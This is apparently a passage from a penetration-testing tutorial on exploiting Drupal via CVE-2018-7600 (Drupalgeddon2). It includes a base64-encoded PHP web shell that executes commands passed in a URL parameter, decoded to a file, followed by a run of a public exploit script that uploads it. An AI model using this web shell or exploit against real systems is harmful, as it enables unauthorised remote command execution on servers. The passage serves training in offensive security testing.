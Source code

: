 ```shell
 echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php

```

Next, run the modified exploit script to upload our malicious PHP file.

```shell
python3 drupalgeddon2.py

################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

